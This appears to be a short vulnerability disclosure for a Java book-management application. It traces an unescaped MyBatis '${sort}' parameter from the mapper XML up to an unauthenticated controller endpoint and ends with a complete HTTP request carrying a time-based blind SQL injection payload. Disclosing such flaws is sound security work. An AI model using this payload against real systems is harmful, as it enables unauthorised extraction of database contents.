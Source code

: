First find '${sort}' in 'src\main\resources\mybatis\mapping\BookMapper.xml', there is sql injection:

![image-20250412140005967](image-20250412140005967.png)

Trace up to the Dao layer:

![image-20250412140124919](image-20250412140124919.png)

Continue tracing to the Service layer:

![image-20250412140225533](image-20250412140225533.png)

Trace to the Controller layer:

![image-20250412140317967](image-20250412140317967.png)

The interface has no authentication, so there is a foreground sql injection, payload:
```
GET /book/searchByPage?sort=if(SUBSTR(DATABASE(),1,1)='n',sleep(1),1) HTTP/1.1
Host: 192.168.111.71:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.6832.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.71:8080/book/bookclass.html?k=111111
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
Connection: close


```

![image-20250412140530992](image-20250412140530992.png)
